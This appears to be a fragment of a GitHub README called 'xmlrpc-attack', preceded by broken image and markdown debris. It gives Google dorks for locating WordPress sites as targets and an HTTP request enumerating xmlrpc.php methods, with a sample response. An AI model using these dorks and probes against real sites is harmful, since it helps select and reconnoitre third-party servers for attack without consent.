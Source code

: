 Post Request:

```

```](<# xmlrpc-attack
Exploiting the xmlrpc.php 
%3Cbr%3E<br>

## Dorks for finding potential targets
- inurl:"/xmlrpc.php?rsd"
- intitle:"WordPress" inurl:"readme.html"
- allinurl:"wp-content/plugins/"

## Searching for XML-RPC servers on WordPress :
- Post Method :
  
  ```xml
  POST /xmlrpc.php HTTP/1.1
  Host: example.com
  Content-Length: 135

  <?xml version="1.0" encoding="utf-8"?>
  <methodCall>
  <methodName>system.listMethods</methodName>
  <params></params>
  </methodCall>
  ```

- The normal response should be :

  ```xml
    HTTP/1.1 200 OK
    Date: Mon, 01 Jul 2019 17:13:30 GMT
    Server: Apache
    Strict-Transport-Security: max-age=63072000; includeSubdomains; preload
    Connection: close
    Vary: Accept-Encoding
    Referrer-Policy: no-referrer-when-downgrade
    Content-Length: 4272
    Content-Type: text/xml; charset=UTF-8
    
    <?xml version="1.0" encoding="UTF-8"?>
    <methodResponse>
      <params>
      <param>
        <value>
      <array><data>
    <value><string>system.multicall</string></value>
    <value><string>system.listMethods</string></value>
    <value><string>system.getCapabilities</string></value>
    <value><string>demo.addTwoNumbers</string></value>
    <value><string>demo.sayHello</string></value>
    <value><string>pingback.extensions.getPingbacks</string></value>
    <value><string>pingback.ping</string></value>
    <value><string>mt.publishPost</string></value>
    ...
    <value><string>wp.getUsersBlogs</string></value>
    </data></array>
        </value>
      </param>
    </params>
    </methodResponse>

  ```
<br><br>